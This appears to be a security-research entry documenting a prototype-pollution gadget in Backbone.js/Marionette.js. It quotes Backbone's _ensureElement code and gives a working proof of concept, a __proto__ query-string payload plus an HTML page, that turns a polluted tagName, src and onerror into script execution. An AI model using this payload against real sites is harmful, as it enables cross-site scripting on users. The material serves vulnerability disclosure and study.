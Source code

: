 ## Marionette.js / Backbone.js

URL: https://marionettejs.com/  
URL: https://backbonejs.org/

### Vulnerable code fragment
https://github.com/jashkenas/backbone/blob/153dc41616a1f2663e4a86b705fefd412ecb4a7a/backbone.js#L1435-L1436
```js
    _ensureElement: function() {
      if (!this.el) {
        var attrs = _.extend({}, _.result(this, 'attributes'));
        if (this.id) attrs.id = _.result(this, 'id');
        if (this.className) attrs['class'] = _.result(this, 'className');
        this.setElement(this._createElement(_.result(this, 'tagName')));
        this._setAttributes(attrs);
```

### PoC

```
?__proto__[tagName]=img&__proto__[src][]=x:&__proto__[onerror][]=alert(1)
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/underscore.js/1.11.0/underscore-min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/backbone.js/1.4.0/backbone-min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/backbone.marionette/4.1.2/backbone.marionette.min.js"></script>
<script>
  Object.prototype.tagName = 'img'
  Object.prototype.src = ['x:x']
  Object.prototype.onerror = ['alert(1)']
</script>
<script>
(function() {
  var View = Mn.View.extend({template: '#template-layout'});
  var App = Mn.Application.extend({region: '#app', onStart: function() {this.showView(new View());}});
  var app = new App();
  app.start();
})();
</script>
<div id="template-layout" type="x-template/underscore">xxx</div>
```